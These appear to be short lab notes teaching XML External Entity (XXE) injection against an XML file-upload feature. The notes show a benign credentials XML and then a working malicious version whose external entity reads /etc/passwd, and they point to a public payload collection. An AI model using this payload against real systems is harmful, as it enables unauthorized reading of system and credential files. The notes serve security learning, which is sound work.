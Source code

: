 XML contians some pontentially dangerous features that can be used to perform an attack.

# XXe 0x01
In this case we have an application that allows us to upload a XML file:
- ![[Pasted image 20250107160729.png]]

So we want to create a malicious XML file to execute commands.

Our legitimate file must be on the form:
```XML
<?xml version="1.0" encoding="UTF-8"?>

<creds>
	<user>username</user>
	<password>pass</password>
</creds
```


So we can create a mlicious file:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
	<!ELEMENT creds ANY >
	<!ENTITY xxe system "file:///etc/passwd">
]>


<creds>
	<user>&xxe;</user>
	<password>pass</password>
</creds
```


The idea is to declarate the external entity that reads the file `/etc/passwd` and then trigger it with `&xxe;`

To find more XXE payloads we can visit [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)


Uploading the malicious file we obtain:
- ![[Pasted image 20250107161425.png]]

It is very rare to find it, in general we can have this vulnerability in APIs when it requires a JSON but XML is also accepted.

